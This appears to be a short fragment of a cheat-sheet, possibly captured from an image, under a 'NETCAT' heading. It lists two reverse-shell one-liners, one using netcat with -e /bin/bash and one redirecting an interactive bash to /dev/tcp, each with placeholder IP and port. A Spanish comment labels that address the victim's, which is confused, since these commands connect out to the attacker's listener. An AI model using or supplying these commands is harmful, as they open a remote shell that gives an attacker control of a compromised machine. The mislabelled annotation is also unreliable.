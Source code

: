 
-NETCAT
nc -e /bin/bash XXX.XXX.XXX.XXX XXX (ip y puerto de la victima)

bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/XXX 0>&1 (ip y puerto de la victima)
